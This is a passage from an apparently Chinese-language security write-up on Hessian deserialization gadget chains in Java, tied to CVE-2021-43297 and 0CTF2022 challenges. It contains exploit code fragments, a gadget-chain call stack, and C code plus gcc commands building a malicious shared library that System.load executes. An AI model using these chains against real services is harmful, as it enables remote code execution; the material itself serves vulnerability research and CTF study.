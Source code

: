 ```java
        Hessian2Input input = new Hessian2Input(bais);
        input.readObject();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```


调用栈：
```
invoke:275, MethodUtil (sun.reflect.misc)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
createValue:73, SwingLazyValue (sun.swing)
getFromHashtable:216, UIDefaults (javax.swing)
get:161, UIDefaults (javax.swing)
toString:253, MimeTypeParameterList (javax.activation)
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
expect:2880, Hessian2Input (com.caucho.hessian.io)
readString:1398, Hessian2Input (com.caucho.hessian.io)
readObjectDefinition:2180, Hessian2Input (com.caucho.hessian.io)
readObject:2122, Hessian2Input (com.caucho.hessian.io)
```
参考：
[0CTF2022复现](https://blog.z3ratu1.cn/0CTF2022%E5%A4%8D%E7%8E%B0.html)
[与 CVE-2021-43297 相关的两道题目](https://harmless.blue/posts/bafdbae3-29de-4788-800d-ed9d5d8d0d79)

### MimeTypeParameterList+ProxyLazyValue+DumpBytecode.dumpBytecode+System.load
这里m0onsec师傅找到一个写文件的链：`jdk.nashorn.internal.codegen.DumpBytecode#dumpBytecode`
![](https://img-blog.csdnimg.cn/1939ee0e5df64ef78a178b22e88e949f.png)

可以看到参数都是可控的，写后缀为.class文件，并且目录不存在的话会创建目录

但是因为ClassLoader的原因 ，在SwingLazyValue这里只能加载 rt.jar 里面的类，而DumpBytecode类在 nashorn.jar 里面
最后找到`ProxyLazyValue.createValue`
![](https://img-blog.csdnimg.cn/aeb23948b0b945c38a15eb97a0d9635b.png)

这里获取到classLoader ，所以就能正常加载nashorn.jar了，但由于 Hessian 序列化的机制，ProxyLazyValue里面的 field acc 在反序列化过程中会报错 ， 所以需要将 acc 反射设置为null

我们可以写一个文件名为.class的so文件，然后使用System.load加载，因为System.load不管后缀是什么都可以执行
首先创建一个动态链接库
```c
#include <stdlib.h>
#include <stdio.h>

void __attribute__ ((__constructor__))  calc (){

    system("calc");
}
```
然后执行`gcc -c calc.c -o calc && gcc calc --share -o calc.so` 生成恶意so文件
